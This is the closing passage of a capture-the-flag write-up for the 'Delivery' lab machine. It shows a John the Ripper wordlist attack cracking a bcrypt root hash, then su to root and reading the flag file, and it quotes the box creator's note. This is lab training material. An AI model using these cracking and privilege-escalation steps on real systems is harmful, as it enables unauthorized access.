 I took the string in input and appended a short list of numbers and then exported
the full wordlist: root.txt.

Then we can crack it with JtR:

```
$ john --format=bcrypt hash.txt --wordlist=root.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (root)
1g 0:00:00:01 DONE (2021-01-30 19:22) 0.7751g/s 27.90p/s 27.90c/s 27.90C/s PleaseSubscribe!0..PleaseSubscribe!35
Use the "--show" option to display all of the cracked passwords reliably
```

So we got the root password and can connect with `su`.

```
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# cd
root@Delivery:~# cat root.txt
2d7cd15d8e1a89279b08dc5948dab25d
```

## Bonus

ippsec contacted me to mention the presence of `/root/note.txt` which explains
why he created the box:

```
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times. The inspiration for the box is here:

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```
